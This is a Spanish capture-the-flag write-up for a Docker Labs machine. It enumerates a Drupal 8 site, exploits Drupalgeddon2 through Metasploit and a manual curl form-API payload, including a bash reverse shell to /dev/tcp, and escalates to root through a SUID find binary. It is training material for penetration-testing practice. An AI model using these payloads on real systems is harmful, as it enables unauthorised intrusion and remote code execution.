


# Ejotapete - Docker Labs

## Reconocimiento

Vamos a hacer un escaneo de puertos con nmap para ver que servicios están corriendo en la máquina objetivo.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

Ahora vamos a hacer un escaneo más profundo para ver que servicios están corriendo en los puertos abiertos.

```bash
nmap -sCV -p80 172.17.0.2

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: 403 Forbidden
Service Info: Host: 172.17.0.2
```

Vemos que el puerto 80 está abierto y corriendo un servidor web Apache 2.4.25. Al acceder a la página web, obtenemos un error 403 Forbidden, lo que significa que no tenemos permisos para acceder al contenido de la página.

Usamos whatweb para obtener más información sobre el servidor web.

```bash
whatweb 'http://172.17.0.2'
http://172.17.0.2 [403 Forbidden] Apache[2.4.25], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.25 (Debian)], IP[172.17.0.2], Title[403 Forbidden]
```

Vamos a enumerar los directorios y archivos del servidor web usando wfuzz y gobuster

```bash
wfuzz -t 200 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt --hc 404 --hl 9 -u "http://172.17.0.2:80/FUZZ"

# No muestra gran cosa

gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 20 --exclude-length 10701

/drupal               (Status: 301) [Size: 309] [--> http://172.17.0.2/drupal/]
```

Al visitar http://172.17.0.2/drupal/ vemos lo siguiente:


Tenemos un CMS Drupal corriendo en el servidor web. Ahora vamos a usar droopescan para enumerar posibles vulnerabilidades en Drupal.

Primero veamos con whatweb que versión de Drupal está corriendo.

```bash
whatweb 'http://172.17.0.2/drupal'
http://172.17.0.2/drupal [301 Moved Permanently] Apache[2.4.25], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.25 (Debian)], IP[172.17.0.2], RedirectLocation[http://172.17.0.2/drupal/], Title[301 Moved Permanently]
http://172.17.0.2/drupal/ [200 OK] Apache[2.4.25], Content-Language[en], Country[RESERVED][ZZ], Drupal, HTML5, HTTPServer[Debian Linux][Apache/2.4.25 (Debian)], IP[172.17.0.2], MetaGenerator[Drupal 8 (https://www.drupal.org)], PHP[7.2.3], PoweredBy[-block], Script, Title[Welcome to Find your own Style | Find your own Style], UncommonHeaders[x-drupal-dynamic-cache,x-content-type-options,x-generator,x-drupal-cache], X-Frame-Options[SAMEORIGIN], X-Powered-By[PHP/7.2.3], X-UA-Compatible[IE=edge]
```

Vemos que está corriendo Drupal 8. 

```python
#!/usr/bin/env python3
import sys, os
from dscan import droopescan

droopescan.main()
```

```bash
source venv/bin/activate
./droopescan scan drupal -u http://172.17.0.2:80/drupal
```

Como he tenido problemas con las versiones de python, he utilizado docker para correr droopescan en un contenedor. 

```bash
sudo docker run --rm -it --net=host python:3.10-slim bash -c "pip install --quiet droopescan && droopescan scan drupal -u http://172.17.0.2:80/drupal"

[+] No plugins found.                                                           

[+] No themes found.

[+] Possible version(s):
    8.5.0
    8.5.0-rc1
    8.5.1
    8.5.2
    8.5.3
    8.5.4
    8.5.5
    8.5.6

[+] Possible interesting urls found:
    Default admin - http://172.17.0.2:80/drupal/user/login
```

Se creó un contenedor, y se instaló droopescan en el contenedor, luego se ejecutó el escaneo de Drupal y se encontraron posibles versiones y una URL interesante para el inicio de sesión y se borró el contenedor.

Al meternos a http://172.17.0.2/drupal/user/login vemos un panel de autenticación de Drupal.



He probado con las credenciales admin:admin y no funcionan.

Vamos a resetear la contraseña del usuario admin. Para ello, vamos a usar burpsuite para interceptar la petición de recuperación de contraseña.



```
POST /drupal/user/password?name=admin HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 101
Origin: http://172.17.0.2
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://172.17.0.2/drupal/user/password?name=admin
Upgrade-Insecure-Requests: 1
Priority: u=0, i


name=admin&form_build_id=form-4r9kkF5oVdZ8n-UpSsebc6jZFNEULKu6rpAkeG7FFRw&form_id=user_pass&op=Submit
```

Error message
admin is not recognized as a username or an email address.

## Explotación automática

Vamos a probar el exploit de Drupalgeddon2 mediante metasploit

```bash
sudo msfdb run

[msf](Jobs:0 Agents:0) >> search drupal

1   exploit/unix/webapp/drupal_drupalgeddon2                          2018-03-28       excellent  Yes    Drupal Drupalgeddon 2 Forms API Property Injection

[msf](Jobs:0 Agents:0) >> use exploit/unix/webapp/drupal_drupalgeddon2
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

[msf](Jobs:0 Agents:0) exploit(unix/webapp/drupal_drupalgeddon2) >> show options
[msf](Jobs:0 Agents:0) exploit(unix/webapp/drupal_drupalgeddon2) >> set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
[msf](Jobs:0 Agents:0) exploit(unix/webapp/drupal_drupalgeddon2) >> set TARGETURI /drupal
TARGETURI => /drupal
[msf](Jobs:0 Agents:0) exploit(unix/webapp/drupal_drupalgeddon2) >> check
[+] 172.17.0.2:80 - The target is vulnerable. Detected vulnerable version 8

[msf](Jobs:0 Agents:0) exploit(unix/webapp/drupal_drupalgeddon2) >> exploit
[*] Started reverse TCP handler on 192.168.0.19:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Detected vulnerable version 8
[*] Sending stage (45739 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.0.19:4444 -> 172.17.0.2:49888) at 2026-07-09 14:18:01 +0100

(Meterpreter 1)(/var/www/html/drupal) >
```

Hemos explotado la vulnerabilidad de Drupalgeddon2 y hemos obtenido una sesión de meterpreter en la máquina objetivo.

## Explotación manual

Para explotar la vulnerabilidad de Drupalgeddon2 manualmente, podemos usar curl para hacer la petición POST que hemos interceptado con burpsuite y modificarla para ejecutar comandos en el servidor.

```bash
curl -i -s -k -X POST "http://172.17.0.2/drupal/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax" \
--data "form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id"

[{"command":"insert","method":"replaceWith","selector":null,"data":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\u003Cspan class=\u0022ajax-new-content\u0022\u003E\u003C\/span\u003E","settings":null}]                  
```

Vamos a entablar una reverse shell con netcat para obtener acceso a la máquina objetivo.

```bash
nc -lvnp 4444
```

```bash
curl -i -s -k -X POST "http://172.17.0.2/drupal/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax" \
--data "form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=bash -c 'bash -i >& /dev/tcp/192.168.0.19/4444 0>&1'"
```

No se establece la conexión, vamos a seguir con la explotación automática con metasploit.

## Escalada de privilegios

```bash
(Meterpreter 1)(/var/www/html/drupal) > shell
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Vamos a hacer las típicas enumeraciones para ver si podemos escalar privilegios.

```bash
id
sudo -l
su

# Nada de esto funciona

find / -perm -4000 2>/dev/null

/usr/bin/find

```

Nos metemos a https://gtfobins.org/gtfobins/find/ y vemos que podemos usar find para escalar privilegios.

```bash
find . -exec /bin/bash -p \; -quit

bash-4.4# whoami
root

bash-4.4# cd /root
secretitomaximo.txt

cat secretitomaximo.txt 
nobodycanfindthispasswordrootrocks
```

Hemos completado la escalada de privilegios y hemos obtenido la flag del root.

